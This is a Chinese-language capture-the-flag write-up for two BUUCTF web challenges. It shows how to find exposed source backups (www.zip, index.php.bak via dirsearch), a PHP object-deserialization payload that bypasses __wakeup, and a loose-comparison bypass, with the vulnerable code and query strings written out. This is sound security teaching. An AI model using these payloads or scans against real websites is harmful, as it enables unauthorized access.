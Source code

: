 # [极客大挑战 2019]PHP 1

1. 一进入题目，就有页面提示我们“所以我有一个良好的备份网站的习惯”
2. 所以我们尝试着输入网站源码备份文件，看看能否访问

    常见的网站源码备份文件后缀:

    tar.gz，zip，rar，tar，bak，swp

    常见的网站源码备份文件名：

    web，website，backup，back，www，wwwroot，temp
3. 发现www.zip可以成功获得网站源码备份
4. 下载后，发现有3个php文件
5. 我们先访问一下 index.php文件，发现文件包含 class.php 文件 并且文件是get 传参，参数为 select

   unserialize 函数允许将序列化后的数据转换回原始的 PHP 对象或数据结构，并在必要时通过调用 __wakeup() 方法来执行一些额外的操作

   __wakeup() 是一个特殊的魔术方法，用于在对象从序列化状态被恢复时执行某些操作。开发者可以在这个方法中实现任何必要的初始化逻辑，例如重新连接到数据库、重新打开文件或执行其他必要的操作
6. 访问 class.php
```php
 <?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```
7. 设置两个私有变量 ，利用 __construct 构造函数 来进行一个一一对应的关系,之后__wakeup() 让 username 变量等于 guest

    在类结束的时候，调用__desctruct()函数 ，如果这个 password不等于100 ，就会输出 username… password… ，退出函数。如果 username= admine 就会输出 flag 否则 失败。

    在本题的关键，就是username的赋值 因为 __wakeup 会对userneme进行一次赋值，所以我们要想办法绕过该函数， 并且在一开始我们要改变 username的赋值
>当成员属性数目大于实际数目时可绕过wakeup方法
8. 构造payload
```php
<?php
class Name{
    private $username = 'admine';
    private $password = '100';
}
$select = new Name();
$res=serialize(@$select);
echo $res
?> 
```
即O:4:"Name":2:{s:14:"%00Name%00username";s:6:"admine";s:14:"%00Name%00password";s:3:"100";}
8. 因为当成员属性数目大于实际数目时才可绕过wakeup

   所以我们要将 2 改为 3 或者 比二大的数字
9. ?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";s:3:"100";}

# [ACTF2020 新生赛]BackupFile 1

1. 题目有提示:Backup file,翻译成中文就是备份文件的意思
2. 扫描python3 dirsearch.py -u http://62b4c3e1-0c2e-4913-bbb0-f4c4dcf76ffb.node5.buuoj.cn:81/ -e*
3. 找到/index.php.bak的文件
4. 查看PHP代码
```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
$str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
if($key == $str) {
    echo $flag;
}

}
else {
    echo "Try to find out source file!";
} 
```
5. 是弱类型的比较题

   在PHP中:

   = = 为弱相等，即当整数和字符串类型相比较时。会先将字符串转化为整数然后再进行比较。比如a=123和b=123admin456进行= =比较时。则b只会截取前面的整数部分。即b转化成123

   所以，这里的a = = b是返回True

   所以这里我们只需要提供一个参数?key=123就可以拿到flag了
